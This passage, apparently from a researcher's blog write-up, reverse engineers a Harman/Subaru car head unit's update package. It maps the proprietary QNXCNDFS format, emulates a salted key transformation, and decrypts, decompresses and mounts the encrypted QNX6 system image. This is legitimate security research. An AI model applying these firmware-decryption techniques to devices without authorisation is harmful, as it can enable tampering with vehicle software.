 6 = SHA512
 7 = AES256-GCM (encrypts; requires 256-bit key)
```

It appears that cndfs/cdqnx6fs can both encrypt/decrypt our dat files, and CNDFS stands for "condensed" filesystem. The help message also lets us know that it is almost certainly encrypted with AES256-GCM, uses a 256-bit key, and may be compressed. Unfortunately, we'd need code execution to run this.

#### ISO Modification

The most logical first attack is to modify the ISO. We can verify this method is impossible by changing a single byte in the image and trying to install it.

On USB insertion, the device probes for certain files on the USB stick. If it finds files that indicate an update, it will claim that it is verifying the integrity of the files (although it actually doesn't do this until reboot, strange!), print a "success" message, reboot into some form of software-update mode, then actually checks the integrity of the ISO. Only the ISO header appears to be signed, but the header contains a SHA hash of the rest of the ISO. Installation will only continue if the header and SHA hashes validate. Barring a mistake in the signature verification subroutines, we will be unable to modify the ISO for trivial code execution.

At this point we've extracted a large number of relevant files from the update package. The files appear to be specific to the early boot process of the device and a specific update mode. We don't yet know what is contained in the encrypted dat files.

## Reverse Engineering QNXCNDFS

As code execution via ISO modification is unfortunately (fortunately?) not trivial, the next step is to decrypt the condensed dat file. Ideally the encrypted files contain some form of security sensitive functionality — i.e. perhaps debug functionality we can abuse on USB insertion. Plenty of embedded systems trigger functionality and debug settings when specific files are loaded onto USB drives and inserted, so we can hope for that here. At worst, we will most likely gain access to more system files we can investigate for rooting opportunities.

QNXCNDFS is a custom image format with no known information available on the Internet, so we'll start from scratch with the installUpdate binary. We know that cndfs or cdqnx6fs are probably involved as they contain the QNXCNDFS string, but how do they get called?

### installUpdate Flow

First, find any references to the cdqnx6fs or cndfs files in installUpdate. It probably gets called here:

```asm
LOAD:0805849C             ; r0 is key?
LOAD:0805849C
LOAD:0805849C             dat_spawn_copy_directory                ; CODE XREF: check_hash_copy+CA↓p
LOAD:0805849C
LOAD:0805849C             var_28          = -0x28
LOAD:0805849C             var_24          = -0x24
LOAD:0805849C             var_20          = -0x20
LOAD:0805849C             var_1C          = -0x1C
LOAD:0805849C             var_18          = -0x18
LOAD:0805849C             var_14          = -0x14
LOAD:0805849C
LOAD:0805849C 70 B5                       PUSH            {R4-R6,LR}
LOAD:0805849E 0C 46                       MOV             R4, R1
LOAD:080584A0 86 B0                       SUB             SP, SP, #0x18
LOAD:080584A2 0E 49                       LDR             R1, =aCopyDirectoryC ; "Copy Directory Command "
LOAD:080584A4 06 46                       MOV             R6, R0
LOAD:080584A6 0E 48                       LDR             R0, =_ZSt4cout ; std::cout
LOAD:080584A8 15 46                       MOV             R5, R2
LOAD:080584AA FC F7 9D FA                 BL              _ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc ; std::operator<<<std::char_traits<char>>(std::basic_ostream<char,std::char_traits<char>> &,char const*)
LOAD:080584AE FC F7 6B FA                 BL              sub_8054988
LOAD:080584B2 0C 4B                       LDR             R3, =aR ; "-r"
LOAD:080584B4 04 36                       ADDS            R6, #4
LOAD:080584B6 03 94                       STR             R4, [SP,#0x28+var_1C]
LOAD:080584B8 02 96                       STR             R6, [SP,#0x28+var_20]
LOAD:080584BA 01 20                       MOVS            R0, #1
LOAD:080584BC 00 93                       STR             R3, [SP,#0x28+var_28]
LOAD:080584BE 0A 4B                       LDR             R3, =aK ; "-k"
LOAD:080584C0 04 95                       STR             R5, [SP,#0x28+var_18]
LOAD:080584C2 0A 4A                       LDR             R2, =(aFsSwminiMinifs_10+0x16) ; "cdqnx6fs"
LOAD:080584C4 01 93                       STR             R3, [SP,#0x28+var_24]
LOAD:080584C6 00 23                       MOVS            R3, #0
LOAD:080584C8 05 93                       STR             R3, [SP,#0x28+var_14]
LOAD:080584CA 09 4B                       LDR             R3, =off_808EA34
LOAD:080584CC D3 F8 94 10                 LDR.W           R1, [R3,#(off_808EAC8 - 0x808EA34)] ; "/fs/swMini/miniFS/bin/cdqnx6fs"
LOAD:080584D0 08 4B                       LDR             R3, =(aSCSIV+0xC) ; "-v"
LOAD:080584D2 F9 F7 E0 E9                 BLX             spawnl
LOAD:080584D6 06 B0                       ADD             SP, SP, #0x18
LOAD:080584D8 70 BD                       POP             {R4-R6,PC}
LOAD:080584D8             ; End of function dat_spawn_copy_directory
```

spawnl creates a child process, so this seems like the correct location. If we look at the caller of dat_spawn_copy_directory, we find ourselves near code verifying some form of integrity of a dat file.

```asm
LOAD:080586BC             loc_80586BC                             ; CODE XREF: check_hash_copy+2E↑j
LOAD:080586BC                                                     ; check_hash_copy+8E↑j
LOAD:080586BC 20 6D                       LDR             R0, [R4,#0x50]
LOAD:080586BE 29 46                       MOV             R1, R5
LOAD:080586C0 3A 46                       MOV             R2, R7
LOAD:080586C2 04 F0 80 F8                 BL              check_dat_hash
LOAD:080586C6 01 28                       CMP             R0, #1
LOAD:080586C8 81 46                       MOV             R9, R0
LOAD:080586CA 06 D1                       BNE             loc_80586DA
LOAD:080586CC
LOAD:080586CC             invalid_dat_file                        ; CODE XREF: check_hash_copy+40↑j
LOAD:080586CC 2E 49                       LDR             R1, =aIntrusionDetec ; "Intrusion detected: Invalid dat file!!!"
LOAD:080586CE 2B 48                       LDR             R0, =_ZSt4cout ; std::cout
LOAD:080586D0 FC F7 8A F9                 BL              _ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc ; std::operator<<<std::char_traits<char>>(std::basic_ostream<char,std::char_traits<char>> &,char const*)
LOAD:080586D4 FC F7 58 F9                 BL              sub_8054988
LOAD:080586D8 41 E0                       B               loc_805875E
```

check_dat_hash doesn't actually verify the dat files — instead, it verifies the ISO contents hash to a value that is in the ISO header. This is relatively easy to discover as the function does a fseek to `0x8000` right at the start.

```asm
LOAD:0805C850 4F F4 00 41                 MOV.W           R1, #0x8000 ; off
LOAD:0805C854 2A 46                       MOV             R2, R5  ; whence
LOAD:0805C856 F4 F7 66 EE                 BLX             fseek
LOAD:0805C85A 78 B1                       CBZ             R0, loc_805C87C
LOAD:0805C85C 04 21                       MOVS            R1, #4
LOAD:0805C85E 05 22                       MOVS            R2, #5
LOAD:0805C860 32 4B                       LDR             R3, =aFseekFailedToO ; "Fseek failed to offset 32768"
```

What is `0x8000`? The ISO 9660 filesystem specifies that the first `0x8000` bytes are "unused". Harman appears to use this section for signatures and other header information. Thus, installUpdate is seeking past this header, then hashing the rest of the ISO contents to verify integrity.

The header is signed and contains the comparison hash, so we cannot just modify the ISO header hash to modify the ISO as we'd also need to re-sign the file. That would require Harman's private key, which we obviously don't have.

Before installUpdate calls into the QNXCNDFS functionality, the system needs to successfully verify the ISO signature. Easy enough, we already have a valid update that is signed.

### cdqnx6fs

Start by looking at the cdqnx6fs strings. This handy string pops out:

```
               Source: '%s' %s
          Destination: '%s' %s
           Chunk size: %u bytes
       Raw chunk size: %u bytes
   Max raw blk length: %u bytes
   Max cmp blk length: %u bytes
    Extents per chunk: %u
Condensed file information:
              Signature: 0x%08llx
                Version: 0x%08x
                  Flags: 0x%08x
             Compressed: %s
              File size: %llu bytes
      Number of extents: %llu
     Header hash method: %s
           Payload data: %llu bytes
            Header hash: %s
   Metadata hash method: %s
          Metadata hash: %s
       Data hash method: %s
              Data hash: %s
File system information:
     File system size: %llu bytes
           Block size: %u bytes
     Number of blocks: %u
          Bitmap size: %u bytes
   Nr. of used blocks: %u
```

On execution, the application prints out a large amount of header data. If we go to the function printing this string, the mapping between the header and the string prints becomes clear.

```asm
LOAD:0804AA8C 4D F2 1C 10+                MOV             R0, #aCondensedFileI ; "Condensed file information:"
LOAD:0804AA94 FF F7 96 E9                 BLX             puts
LOAD:0804AA98 BB 68                       LDR             R3, [R7,#0x18+var_10]
LOAD:0804AA9A D3 E9 00 23                 LDRD.W          R2, R3, [R3]
LOAD:0804AA9E 4D F2 38 10+                MOV             R0, #aSignature0x08l ; "              Signature: 0x%08llx\n"
LOAD:0804AAA6 FF F7 3A E9                 BLX             printf
LOAD:0804AAAA BB 68                       LDR             R3, [R7,#0x18+var_10]
LOAD:0804AAAC 1B 89                       LDRH            R3, [R3,#8]
LOAD:0804AAAE 4D F2 5C 10+                MOV             R0, #aVersion0x04hx ; "                Version: 0x%04hx\n"
LOAD:0804AAB6 19 46                       MOV             R1, R3
LOAD:0804AAB8 FF F7 30 E9                 BLX             printf
LOAD:0804AABC BB 68                       LDR             R3, [R7,#0x18+var_10]
LOAD:0804AABE 5B 89                       LDRH            R3, [R3,#0xA]
LOAD:0804AAC0 4D F2 80 10+                MOV             R0, #aFsType0x04hx ; "                FS type: 0x%04hx\n"
LOAD:0804AAC8 19 46                       MOV             R1, R3
LOAD:0804AACA FF F7 28 E9                 BLX             printf
LOAD:0804AACE BB 68                       LDR             R3, [R7,#0x18+var_10]
LOAD:0804AAD0 DB 68                       LDR             R3, [R3,#0xC]
LOAD:0804AAD2 4D F2 A4 10+                MOV             R0, #aFlags0x08x ; "                  Flags: 0x%08x\n"
```

R3 points to the DAT file contents. Before each print, a constant is added to the DAT file content pointer then the value is dereferenced. In effect, each load shows us the correct offset to the field being printed. Thus, signature is offset 0 (the QNXCNDFS string, not a digital signature one might first suspect), version is offset 8, filesystem type is offset 0xA, etc. Using this subroutine, we can recover around 70-80% of the header data for the encrypted file with virtually no effort.

Since we don't know what FS type actually means or corresponds to, these aren't the best fields to verify. If we go down a bit in the function, we get to more interesting header fields with sizes.

```asm
LOAD:0804AB38 BB 68                       LDR             R3, [R7,#0x18+var_10]
LOAD:0804AB3A D3 E9 04 23                 LDRD.W          R2, R3, [R3,#0x10]
LOAD:0804AB3E 4D F2 10 20+                MOV             R0, #aRawSizeLluByte ; "               Raw size: %llu bytes\n"
LOAD:0804AB46 FF F7 EA E8                 BLX             printf
LOAD:0804AB4A BB 68                       LDR             R3, [R7,#0x18+var_10]
LOAD:0804AB4C D3 E9 06 23                 LDRD.W          R2, R3, [R3,#0x18]
LOAD:0804AB50 4D F2 38 20+                MOV             R0, #aCondensedSizeL ; "         Condensed size: %llu bytes\n"
LOAD:0804AB58 FF F7 E0 E8                 BLX             printf
LOAD:0804AB5C BB 68                       LDR             R3, [R7,#0x18+var_10]
LOAD:0804AB5E D3 E9 08 23                 LDRD.W          R2, R3, [R3,#0x20]
LOAD:0804AB62 4D F2 60 20+                MOV             R0, #aRawDataBytesLl ; "         Raw data bytes: %llu bytes\n"
LOAD:0804AB6A FF F7 D8 E8                 BLX             printf
```

Condensed size is a double-word (64-bit value) loaded at offset 0x18. This corresponds to this word in our header:

```
00000010  00 c0 ff 3f 00 00 00 00  8c 1d 5e 05 00 00 00 00  |...?......^.....|
```

`8c 1d 5e 05 00 00 00 00 is` little endian for `90054028` bytes, which is the exact size of swupdate.dat. This is confirmation that we're on the right track with the header.

The header contains several configurable hashes. There's a hash for the metadata, a hash for an "extents" and "cluster" table, and finally a hash for the actual encrypted data. The hash bounds can be reverse engineered by simply guessing else looking a bit further in the binary.

The cdqnx6fs binary is quite compact and doesn't contain many debugging strings. Reverse engineering it will be time consuming, so attempting to guess at the file-format instead of reverse engineering large amounts of filesystem IO code could save time.

#### Cluster Table

The cluster table contains a header-configurable number of clusters. I didn't know what clusters were at this point, but an initial guess is something akin to a filesystem block. The header also contains an offset to a table of clusters. The table of clusters looks like this:

```console
00000280  90 0e 00 00 00 00 00 00  e1 e6 00 00 00 00 00 00  |................|
00000290  71 f5 00 00 00 00 00 00  19 1c 00 00 00 00 00 00  |q...............|
000002a0  8a 11 01 00 00 00 00 00  19 1c 00 00 00 00 00 00  |................|
000002b0  a3 2d 01 00 00 00 00 00  19 1c 00 00 00 00 00 00  |.-..............|
```

Again, we can easily guess what this is with a little intuition. If we assume the first doubleword is a pointer in the existing file and navigate to offset `0x0E90`, we get:

```console
00000e50  80 f3 42 05 00 00 00 00  5f 89 07 00 00 00 00 00  |..B....._.......|
00000e60  df 7c 4a 05 00 00 00 00  96 fd 08 00 00 00 00 00  |.|J.............|
00000e70  75 7a 53 05 00 00 00 00  2c 21 06 00 00 00 00 00  |uzS.....,!......|
00000e80  a1 9b 59 05 00 00 00 00  eb 81 04 00 00 00 00 00  |..Y.............|
00000e90  0e 0f 86 ac 0a e5 9c 25  ce 6d 09 ee 9c 58 39 9a  |.......%.m...X9.|
00000ea0  97 84 6f 26 5c 8b 03 c2  bf b6 c8 80 11 69 34 10  |..o&\........i4.|
00000eb0  c1 0c 02 5c 01 fa f8 fa  10 65 c2 d3 3b 49 82 14  |...\.....e..;I..|
00000ec0  d6 3c ef ce db 52 5b 11  42 69 6e c3 50 a2 1f af  |.<...R[.Bin.P...|
```

`0xe90` is the end of the cluster table (note the change in entropy). The first doubleword is almost certainly an offset into the data section. For the next doubleword, a guess is that it is the size of the cluster data. `0x0e90 + 0xE6E1 = 0xF571`. The next cluster entry offset is indeed `0xF571`. We now understand the cluster table and the data section.

#### Cluster Data

Chunks of cluster data can now be extracted from the data segment using the cluster table. Each chunk looks entirely random and there is no clear metadata in any particular chunk.

Using header data, we know that both dat files shipped in this update are both encrypted and compressed. The decryption step will need to happen first using AES256-GCM. Via reverse engineering and [searching](https://duckduckgo.com/?q=AES-GCM-%253d+%23%25d+(%25s)%3A&t=h_&ia=web) for strings near the encryption code, it is clear that the cdqnx6fs binary is using [mbed tls](https://tls.mbed.org/). The target decryption function is [mbedtls_gcm_auth_decrypt ](https://tls.mbed.org/api/gcm_8h.html#af264b64b26c4720188b530cfccddb4ef). After researching [GCM](https://en.wikipedia.org/wiki/Galois/Counter_Mode) a bit more, we will need the symmetric key, the initialization vector, and an authentication tag to correctly decrypt and verify the buffer. We have a probable symmetric key from the filesystem, but need to find the IV and tag.

Again, the code is dense and reverse-engineering the true structure would take quite a bit of time, and I didn't find evidence of a constant IV, so let's guess. If I were designing this, I'd put the IV in the first 16 bytes, the tag in the next 16, then have the encrypted data following that. There aren't too many logical combinations here, so we can switch the IV and tag around, and also try prepending and appending this data.

This seemed likely to me. Unfortunately, after plugging in the symmetric key and trying the above process in python, nothing seemed to decrypt correctly. The authentication tags never matched.

Thus, we potentially guessed incorrectly on the structure of the encrypted clusters, the algorithm isn't actually AES-GCM (or it was modified), or something else is going on.

Before delving into the code, let's search for where the encryption key is passed from installUpdate to cdqnx6fs. The symm.key file seems like an obvious choice for the symmetric key, but maybe that isn't correct.

### Decrypting

How do we locate where the symmetric key is loaded and passed to the new process? Search for the filename and examine all references. There is only one reference, and it is passed to fopen64. A short while after, this value is passed to the cdqnx6fs process.

Examine the following code:

```asm
LOAD:08052ADE 37 48                       LDR             R0, =aDecrypting ; "Decrypting..."
LOAD:08052AE0 FE F7 74 EE                 BLX             puts
LOAD:08052AE4 36 4B                       LDR             R3, loc_8052BC0
LOAD:08052AE6 37 49                       LDR             R1, =(aR+1) ; "r"
LOAD:08052AE8 18 68                       LDR             R0, [R3] ; "/etc/keys/symm.key"
LOAD:08052AEA FE F7 68 EA                 BLX             fopen64
LOAD:08052AEE 05 46                       MOV             R5, R0
LOAD:08052AF0 48 B9                       CBNZ            R0, loc_8052B06
LOAD:08052AF2 35 4B                       LDR             R3, =(a89abcdefcalcne+8) ; "calcNewSymmKey"
LOAD:08052AF4 02 21                       MOVS            R1, #2
LOAD:08052AF6 0A 46                       MOV             R2, R1
LOAD:08052AF8 00 93                       STR             R3, [SP,#0xC0+var_C0]
LOAD:08052AFA 32 23                       MOVS            R3, #0x32
LOAD:08052AFC 01 93                       STR             R3, [SP,#0xC0+var_BC]
LOAD:08052AFE 33 4B                       LDR             R3, =aUnableToOpenSy ; " Unable to open symm key file : %s , %d"...
LOAD:08052B00 FE F7 FE EC                 BLX             slog2f
LOAD:08052B04 1E E0                       B               return_err
```

A major hint is the debug error message that happens to print the function name. The function the symmetric key gets loaded in is called `calcNewSymmKey`, and another debug message prints "Decrypting...".

The symmetric key is modified via some form of transformation.

### Key Generation

Back before every app was built with Electron and used around three gigs of RAM to send a tweet, software authors would distribute demos and shareware, which was software that usually had the complete functionality unlocked for a brief time-trial. To unlock it, you would pay the author and get back a code (serial) you could enter into the program. This serial was often tied to hardware specific information or a user-name. If the serial was valid, the program would unlock.

There are numerous different ways to get around this. In order of what the "scene" considered most technically impressive and useful back in the day, the best way to bypass software serial schemes was as follows:

1. Key Generator - Reverse engineer the author's serial registration algorithm. Port it to C or well documented, ASM, write a nifty win32 applet that plays mod files and makes your logo spin around, etc.
2. Self-key generation - Modify the binary to print out the real serial number in a text box. Many programs would make the fatal mistake of comparing the true serial with the one the user entered via strcmp. Just change the comparison to a message box display function and exit right after as you probably overwrote some important code. After you get the code, delete the patched version, install the original, and you have an "authentically" registered program.
3. Patching - Bypass the time-limit, always return "Registered", etc. The more patches it took, usually the worse the "crack" was.

Reverse engineering the key generation algorithm was always the hardest method. Patching was challenging as it was a cat and mouse game between developers and crackers. Registration functionality would get increasingly complicated to try and obfuscate what was going on.

Harman has designed an encryption scheme that is quite similar to early software protection efforts.

#### Emulation

Harman's algorithm looks rather simple as the function generating the new key doesn't call into any subroutines, doesn't use any system calls, and is only 120 lines of ARM. The ARM is interesting to look at, but at the end of the day one can statically analyze the entire process without ever leaving the subroutine.

But understanding the assembly and converting it to C will take time. What if we could just emulate the algorithm?

We're running ARM. The easiest way will be to take the actual assembly and paste it directly into an assembly stub, then call into that from C. After it returns, print the modified memory contents. Cross-compile it, run in QEMU, and done.

The idea is to take the Harman transformation code and run it exactly. This isn't quite as easy as copy-and-paste, but it is close. I had to modify a few registers to get this to work.

The assembly stub:

```asm
.syntax unified
.section .text
.global decrypt
.cpu cortex-a9
.thumb
decrypt:
push {r4-r7, lr}
# Code goes here!
pop  {r4-r7, pc}
```

The C shim:

```c
#include <stdio.h>

extern char *decrypt(char *, int);

#define SALT 0x0

int main() {
  char symmetric_key[] = "key-was-here";
  char *output = decrypt(symmetric_key, SALT);
  printf("Key is: %s\n", output);
  return 0;
}
```

The Makefile:

```make
all:
	arm-linux-gnueabi-gcc -Wall -pedantic key.c -g algo.s -static -mthumb && qemu-arm -cpu cortex-a9 a.out
clean:
	rm a.out
```

The only other trick to note is that the calcNewSymmKey function takes in one parameter called a salt. Salt is loaded from the very end of the standard ISO header (`0x7FDE`) and is also printed in some of the build artifacts that are still packaged with the updates.

```console
00007fd0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 30 39  |..............09|
00007fe0  a9 2b 74 10 51 6b 01 46  5b 1a e3 40 dc d1 ec d5  |.+t.Qk.F[..@....|
00007ff0  36 a4 53 0c 23 05 bd 76  ac 60 83 f0 7b 88 79 c5  |6.S.#..v.`..{.y.|
00008000  01 43 44 30 30 31 01 00  57 69 6e 33 32 2f 4d 69  |.CD001..Win32/Mi|
```

The salt fetching code simply converts a two-digit ASCII character array into an integer.

```c
salt = 10 * DIGIT1 + DIGIT2 - 0x210;
```

Which is just an expanded version of the "convert a two-digit character array representing an integer number to an integer" algorithm:

```c
salt = 10(DIGIT1 - 0x30) + (DIGIT2 - 0x30)
```

After running the key generator with the correct salt, we get a significantly modified symmetric key that decrypts the clusters. Easy as that!



I believe the true key generation algorithm can be derived by playing around with the symmetric key and the salt value with the key generator. It appears to be a simple rotation cipher.

I will not release the full key generator as it is using Harman's own code. On the plus side, this should cut down on "I flashed a random binary to my head unit and it won't turn on" support e-mails.

### Cluster Decryption

With the new key, the aforementioned guessed decryption scheme works. IV is indeed the first chunk, followed by the authentication tag, followed by the encrypted data.

```console
00000000  04 eb 10 90 00 60 00 01  10 43 00 18 d8 6f 17 00  |.....`...C...o..|
00000010  00 80 fa 31 c0 8e d0 bc  00 20 b8 c0 07 50 b8 36  |...1..... ...P.6|
00000020  01 50 cb 00 2b 81 00 66  90 e9 00 02 8d b4 b7 01  |.P..+..f........|
00000030  39 81 00 ff ff 04 00 93  27 08 00 3d 01 00 04 18  |9.......'..=....|
00000040  00 90 7c 26 b8 00 9b cf  d7 01 19 cf 00 0d 0a 51  |..|&...........Q|
00000050  4e 58 20 76 31 2e 32 62  20 42 6f 6f 74 20 4c 6f  |NX v1.2b Boot Lo|
00000060  61 64 65 72 57 00 10 55  6e 73 75 70 70 6f 72 74  |aderW..Unsupport|
00000070  65 64 20 42 49 4f 53 52  00 08 52 41 4d 20 45 72  |ed BIOSR..RAM Er|
00000080  72 6f 7e 00 09 44 69 73  6b 20 52 65 61 64 26 12  |ro~..Disk Read&.|
00000090  00 10 4d 69 73 73 69 6e  67 20 4f 53 20 49 6d 61  |..Missing OS Ima|
000000a0  67 65 52 00 07 49 6e 76  61 6c 69 64 29 13 00 29  |geR..Invalid)..)|
000000b0  17 01 06 4d 75 6c 74 69  2d 76 03 03 00 3a 20 5b  |...Multi-v...: [|
```

`0x9010eb04` is the tag for a QNX6 filesystem. Some of the strings look slightly corrupted, which is probably explained by the compression.

### Cluster Decompression

If we go back to the binary and look for a hint, we find a great one:

```
LOAD:0805D6D8 41 73 73 65+aAssertionFaile DCB "Assertion failed in %s@%d:e == LZO_E_OK",0
```

This points us, with almost absolute certainty, to [lzo](http://www.oberhumer.com/opensource/lzo/). Take the chunk, pass it to `lzo1x_decompress_safe()` via C or Python, then get the following error message:

```
lzo.error: Compressed data violation -6
```

So, this isn't miniLZO? This part stumped me for a few hours as lzo1x is by far the most commonly used compression function used from the LZO library. The LZO library does provide many other options that are benchmarked in the LZO documentation — i.e., there's also LZO1, LZO1A, LZO1B, LZO1C, LZO1F, LZO1Y, etc. lzo1x is packaged inside of miniLZO, and is recommended as the best, hence seems to be almost the only algorithm ever used as far as I am aware.

From the [LZO documentation](https://fossies.org/linux/lzo/doc/LZO.TXT):

```
My experiments have shown that LZO1B is good with a large blocksize
or with very redundant data, LZO1F is good with a small blocksize or
with binary data and that LZO1X is often the best choice of all.
LZO1Y and LZO1Z are almost identical to LZO1X - they can achieve a
better compression ratio on some files.
Beware, your mileage may vary.
```

I tested most of the algorithms, and only one worked: `lzo1c_decompress_safe`. So, why was lzo1c used? I have absolutely no idea. My guess is someone was bored one day and benchmarked several of the lzo algorithms for QNXCNDFS, or someone thought this would make it difficult to recover the actual data. This just makes decryption an annoyance as every upstream lzo package usually only implements the lzo1x algorithm.

### Mounting the Image

After all of this, we can now decrypt and decompress all of the chunks. Concatenating the result of this gives us a binary blob that looks quite like a QNX6 filesystem. The Linux kernel can be built to mount QNX6 filesystem as read-only thanks to the work of Kai Bankett.

However, if we try to mount the concatenated image, we get a superblock error.

```console
$ sudo mount -t qnx6 -o loop system.dat.dec.noextent mnt
mount: /home/work/workspace/mnt: wrong fs type, bad option, bad superblock on /dev/loop7, missing codepage or helper program, or other error.
```

The kernel module reports:

```
[  567.260015] qnx6: unable to read the second superblock
```

On top of all of this, some of the header fields do not appear to match up with what we expect: raw size (dword header offset: `0x10`) does not match the file size of our decrypted and decompressed blob.

This almost certainly has to do with the previously ignored extents section of the QNXCNDFS file.

### The Extents Section

Most of the QNXCNDFS file is now understood, with one exception: the extents section.

```console
00000200  00 00 00 00 00 00 00 00  00 20 00 00 00 00 00 00  |......... ......|
00000210  80 02 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000220  00 20 00 00 00 00 00 00  00 02 00 00 00 00 00 00  |. ..............|
00000230  80 02 00 00 00 00 00 00  00 20 00 00 00 00 00 00  |......... ......|
00000240  00 30 00 00 00 00 00 00  00 80 07 0c 00 00 00 00  |.0..............|
00000250  80 02 00 00 00 00 00 00  00 22 00 00 00 00 00 00  |........."......|
00000260  00 b0 ff 3f 00 00 00 00  00 02 00 00 00 00 00 00  |...?............|
00000270  80 0e 00 00 00 00 00 00  00 a2 07 00 00 00 00 00  |................|
```

Low entropy again, so we can try guessing. We know the size and start of the extents section from the header. We know there are four "extents" (again from the header), hence the above is almost certainly four sets of four dwords.

Searching the binary for useful strings isn't too productive. Two fields are named, but no other hints:

```
LOAD:0805DD8C 41 73 73 65+aAssertionFaile_1 DCB "Assertion failed in %s@%d:cpos == xtnt->clstr0_pos",0
...
LOAD:0805DE2C 41 73 73 65+aAssertionFaile_2 DCB "Assertion failed in %s@%d:offset == xtnt->clstr0_off",0
```

So, one field may be a cluster position, the other may be some form of cluster offset.

There seem to be some patterns in the data. If we assume the first dword is an address and the second dword is a length, the results look good.

```
Extent at 0x200: Write Address: 0x00000000, Write Size: 0x00002000
Extent at 0x220: Write Address: 0x00002000, Write Size: 0x00000200
Extent at 0x240: Write Address: 0x00003000, Write Size: 0x0C078000
Extent at 0x260: Write Address: 0x3FFFB000, Write Size: 0x00000200
```

Adding up the write sizes gives us `0xC07A400`, which matches the header field for "raw data bytes" of the file.

These don't line up perfectly. The first and second extent makes sense — write address 0 + write size 0 = write address 1. What do the third and fourth dword represent? Clusters are likely involved, in fact, the third dword does point to offsets that line up with cluster table entries. Dword four is a bit mysterious.

To solve this, understanding the QNX6 superblock structure is helpful.

### Understanding the Extents

There's a well written [write-up](https://www.kernel.org/doc/Documentation/filesystems/qnx6.txt) of the QNX6 filesystem structure done by the same individual that implemented the driver in the Linux kernel. Summarizing the useful parts, there are two superblocks in the filesystem images. One is near the beginning and one is near the end.

Debugging the kernel module indicates that the first superblock is correct and validating, while the second is missing or invalid.

Manually calculating the second superblock address via following the [source code](https://github.com/torvalds/linux/blob/master/fs/qnx6/super_mmi.c) gets us this:

```C
//Blocksize is 1024 (0x400)
//num_blocks = 0xFFFE0
//bootblock offset = #define QNX6_BOOTBLOCK_SIZE	0x2000
#define QNX6_SUPERBLOCK_AREA 0x1000

/* calculate second superblock blocknumber */
offset = fs32_to_cpu(sbi, sb1->sb_num_blocks) +
  (bootblock_offset >> s->s_blocksize_bits) +
(QNX6_SUPERBLOCK_AREA >> s->s_blocksize_bits);
```

So:

```
0xFFFE0 + (0x2000 >> 10) + (0x1000 >> 10) * 1024 block size is offset:
(0xFFFE0 + 8 + 4) * 1024 = 0x3FFFB000
```

Note that the calculated second superblock address is the same as the last extent write address. At this point, it became clear to me that the extents section is just used to "compress" large runs of zeros. The last extent is skipping a large chunk of memory and then writing out the superblock from the end of the last cluster.

Thus, we can process the extents like this:

```
aa aa aa aa 00 00 00 00    bb bb bb bb 00 00 00 00
cc cc cc cc 00 00 00 00    dd dd dd dd 00 00 00 00
```

At offset `0xaaaaaaaa`, write `0xbbbbbbbb` bytes from offset `0xdddddddd` into the cluster pointed to by cluster table entry `0xcccccccc`.

Or, a real example:

```console
00000200  00 00 00 00 00 00 00 00  00 20 00 00 00 00 00 00  |......... ......|
00000210  80 02 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000220  00 20 00 00 00 00 00 00  00 02 00 00 00 00 00 00  |. ..............|
00000230  80 02 00 00 00 00 00 00  00 20 00 00 00 00 00 00  |......... ......|
00000240  00 30 00 00 00 00 00 00  00 80 07 0c 00 00 00 00  |.0..............|
00000250  80 02 00 00 00 00 00 00  00 22 00 00 00 00 00 00  |........."......|
00000260  00 b0 ff 3f 00 00 00 00  00 02 00 00 00 00 00 00  |...?............|
00000270  80 0e 00 00 00 00 00 00  00 a2 07 00 00 00 00 00  |................|
```

1. mmap a 0 set file of header field "raw size" bytes.
2. At offset `0x00000000`, write `0x00002000` bytes from an offset of `0x00000000` into the cluster pointed to by table entry `0x0280`.
3. At offset `0x00002000`, write `0x00000200` bytes from an offset of `0x00002000` into the cluster pointed to by table entry `0x0280`.
4. At offset `0x00003000`, write `0x0c078000` bytes from an offset of `0x00002200` into the cluster pointed to by table entry `0x0280`.
5. At offset `0x3fffb000`, write `0x00000200` bytes from an offset of `0x07a20000` into the cluster pointed to by table entry `0x0e80`.

As the `0x0c078000` byte write runs off the end of first cluster, the correct behavior is to jump to the next cluster in the table and continue reading. This simplifies the extents section.

### Final Decompression

With this, we know enough to completely decompress the encrypted and compressed QNXCNDFS files and successfully mount them through the Linux QNX6 driver. This was all done via static analysis.

See [qdecant](https://github.com/sgayou/qdecant) for a rough implementation of this, but do note that you'll have to compile your own python lzo module with one function call change for this to work. This was a quick, and woefully inefficient, script to get the files dumped as soon as possible. I would have improved it further, but you'll see why I didn't subsequently.

## system.dat

Here's a small sample of the files and directories inside of system.dat:

```console
./bin
...
./bin/bt_test
./bin/iocupdate
./bin/awk
./bin/display_image
./bin/gles1-gears
./bin/screenshot
...
./lib
./lib/libQt53DLogic.so.5
...
./lib/libQt53DQuick.so.5
./etc
./etc/resolv.conf
./etc/licenseAgreement.txt
./etc/openSourceLicenses.txt
./etc/options.connmgr
./app/usr/share/prompts/waveFiles/4CH
...
./app/usr/share/trace/UISpeechService.hbtc
./app/etc/wicome/DbVersion.txt
...
./app/etc/wicome/SCP.rnf
./app/etc/speech/AudioConfig.txt
./app/share/updatestrings.json
./app/wicome
./usr
./usr/var
./usr/var/DialogManager
./usr/var/DialogManager/DynamicUserDataGrammar
./usr/var/UISS
./usr/var/UISS/speechTEFiles/sat
./dialogManager/dialog/grammar/en_US/grammarHouseBackward.fcf
...
./ifs_images
./ifs_images/sys1.ifs
./ifs_images/core1.ifs
./ifs_images/hmi1.ifs
./ifs_images/second1.ifs
./ifs_images/third1.ifs
```

Far less than I imagined. Plenty of duplicated files we already had access to from the ISO file. The interesting find are the new ifs files at the bottom.

### ifs_images

There are plenty of more files in the system.dat ifs images. It is always fun to look around system internals. Here are a few interesting findings:

* tr.cpp - Some sort of build artifact. Has something to do with mapping fonts or translation strings to the UI I believe. Hints at a dealer, factory, and engineering mode. I believe dealer and factory can be triggered with known button combinations. I am unsure how to get into engineering mode or what it even contains.

```"FACTORY_MODE"<<"DEALER_MODE"<<"ENGINEERING_MODE";```

* CarplayService.cfg - Apple apparently recommends that head units supporting Carplay not inject their own UI/functionality on top of or next to Carplay. Well done Apple and Subaru, that's always annoying.

```
"Screen_Width": 800,
/* March-02-2016: The Apple Spec recommended is slightly changed here as per discussion with Apple [during demo over webex] and they suggested the carplay screen to occupy full screen of HU removing the status bar [maserati icon]*/
```

